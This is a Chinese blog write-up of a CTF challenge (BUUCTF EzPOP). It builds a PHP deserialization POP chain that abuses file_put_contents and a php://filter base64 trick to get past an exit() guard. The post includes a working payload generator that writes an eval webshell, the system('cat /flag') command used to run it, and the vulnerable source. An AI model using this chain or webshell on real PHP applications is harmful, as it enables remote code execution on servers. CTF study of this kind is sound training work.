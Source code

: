 <!--yml
category: 未分类
date: 2022-04-26 14:43:31
-->

# BUUCTF__[EIS 2019]EzPOP_题解_风过江南乱的博客-CSDN博客

> 来源：[https://blog.csdn.net/TM_1024/article/details/116208390](https://blog.csdn.net/TM_1024/article/details/116208390)

## 前言

## 解题

*   最后有一个反序列化函数`unserialize`来推一波poc利用链。

*   从后往前推，首先看到`file_put_contents`函数，可以写入webshell文件。

*   再来看看两个参数。其中可以看到`data`，经过了拼接处理，其中有一个exit好像不太行，但我们可以利用php伪协议绕过，看看这篇详情介绍[谈一谈php://filter的妙用](https://www.leavesongs.com/PENETRATION/php-filter-magic.html?page=2#reply-list)

    ```
    $data = "<?php\n//" . sprintf('%012d', $expire) . "\n exit();?>\n" . $data; 
    ```

*   往上，虽然有个数据压缩的代码，但是只需要`options['data_compress']`为假就不进入if不执行，经过了`serialize`函数，但这个函数并非是序列化函数，而是在`class B`中自定义的`serialize`函数。

*   但是`$value`变量来自`class A`中调用`set`函数时传递的`$contents`变量。那么class是怎么调用`class B`中的`set`函数，首先魔术方法`__destruct()`在反序列化时被调用，if一个 `!$this->autosave`，这就要求`$this->autosave`为假，然后是调用`save()`函数，其中的`$this->store->set();`完成调用，这就要求`$this->store`为`class B`的对象。

*   在往上，`$contents`变量来自函数`getForStorage();`的返回值，其中参数为数组`[$cleaned, $this->complete]`，两个选择，第一让`$cleaned`为shell内容，第二就是`$complete`,显然`$complete`更简单，所以让`$complete`为shell内容，那么`$cleaned`为一个空数组就行了。

*   再来看看`filename`，往上找的一个就是函数`getCacheKey($name);`的返回值，返回的是`options['prefix'] . $name;`两个变量拼接,其中`$name`来自`class A`中调用`set`函数时传递的`$key`变量。结束。

*   然后就再来看看具体的paylaod。

*   首先调用`class B`中`set`函数的条件`$this->autosave=false`， `$this->store=new B()`;

*   再是shell路径`$this->key = "php://filter/write=convert.base64-decode/resource=shell.php";`，`options['prefix']`不要也行，反正只是拼接。

*   然后来看shell内容，首先绕过数据压缩`$this->options['data_compress'] = false;`

*   然后是让`$cleaned`为空数组，它调用了`cleanContents($this->cache);`因为函数参数是数组类型，所以让`$this->cache=array();`为一个空数组，防止调用报错。

*   最后是shell内容，`$this->complete = base64_encode("xxx".base64_encode('<?php @eval($_GET["1"]);?>'));`，`$this->options['serialize'] = 'base64_decode';`

*   第一次编码是为了绕过exit，第二次是为了防止出错，但中间拼接的`'xxx'`的作用是啥？

*   base64算法解码时是4个字节一组，如果直接伪协议base64解码前面拼接内容`"<?php\n//" . sprintf('%012d', $expire) . "\n exit();?>\n"`如果不足4的倍数会向后取三位补足4的倍数，破坏我们的shell内容，所以我们加上字符补全，来看看需要补多少个字符。

*   `sprintf('%012d', $expire)`不用管，输出12个字节刚好。由于`<、?、()、;、>、\n`都不是base64编码的范围，所以base64解码的时候会自动将其忽略，所以剩下`phpexit`九个字节，补三个。

*   payload

```
<?php
class A{
    protected $store;
    protected $key;
    protected $expire;

    public function __construct()
    {
        $this->cache = array();
        $this->complete = base64_encode("xxx".base64_encode('<?php @eval($_GET["1"]);?>'));
        $this->key = "php://filter/write=convert.base64-decode/resource=1.php";
        $this->store = new B();
        $this->autosave = false;
    }

}
class B{
    public $options = array();
    function __construct()
    {
        $this->options['serialize'] = 'base64_decode';
        $this->options['data_compress'] = false;
    }
}
echo urlencode(serialize(new A()));
?> 
```

*   结束，运行生成payload，访问src=1&data=paylaod写入shell，再访问`1.php?1=system('cat /flag');`会·获取flag。
*   补上源码

```
<?php
error_reporting(0);

class A {

    protected $store;
    protected $key;
    protected $expire;

    public function __construct($store, $key = 'flysystem', $expire = null) {
        $this->key = $key;
        $this->store = $store;
        $this->expire = $expire;
    }

    public function cleanContents(array $contents) {
        $cachedProperties = array_flip([
            'path', 'dirname', 'basename', 'extension', 'filename',
            'size', 'mimetype', 'visibility', 'timestamp', 'type',
        ]);

        foreach ($contents as $path => $object) {
            if (is_array($object)) {
                $contents[$path] = array_intersect_key($object, $cachedProperties);
            }
        }

        return $contents;
    }

    public function getForStorage() {
        $cleaned = $this->cleanContents($this->cache);

        return json_encode([$cleaned, $this->complete]);
    }

    public function save() {
        $contents = $this->getForStorage();

        $this->store->set($this->key, $contents, $this->expire);
    }

    public function __destruct() {
        if (!$this->autosave) {
            $this->save();
        }
    }
}

class B {

    protected function getExpireTime($expire): int {
        return (int) $expire;
    }

    public function getCacheKey(string $name): string {
        return $this->options['prefix'] . $name;
    }

    protected function serialize($data): string {
        if (is_numeric($data)) {
            return (string) $data;
        }

        $serialize = $this->options['serialize'];

        return $serialize($data);
    }

    public function set($name, $value, $expire = null): bool{
        $this->writeTimes++;

        if (is_null($expire)) {
            $expire = $this->options['expire'];
        }

        $expire = $this->getExpireTime($expire);
        $filename = $this->getCacheKey($name);

        $dir = dirname($filename);

        if (!is_dir($dir)) {
            try {
                mkdir($dir, 0755, true);
            } catch (\Exception $e) {

            }
        }

        $data = $this->serialize($value);

        if ($this->options['data_compress'] && function_exists('gzcompress')) {

            $data = gzcompress($data, 3);
        }

        $data = "<?php\n//" . sprintf('%012d', $expire) . "\n exit();?>\n" . $data;

        $result = file_put_contents($filename, $data);

        if ($result) {
            return true;
        }

        return false;
    }

}

if (isset($_GET['src']))
{
    highlight_file(__FILE__);
}

$dir = "uploads/";

if (!is_dir($dir))
{
    mkdir($dir);
}
unserialize($_GET["data"]); 
```

## 总结

*   反序列化题目，先找到最后的利用点，然后往前推利用链，一步一步往上找调用点，最终推到输入点，串起来就行了。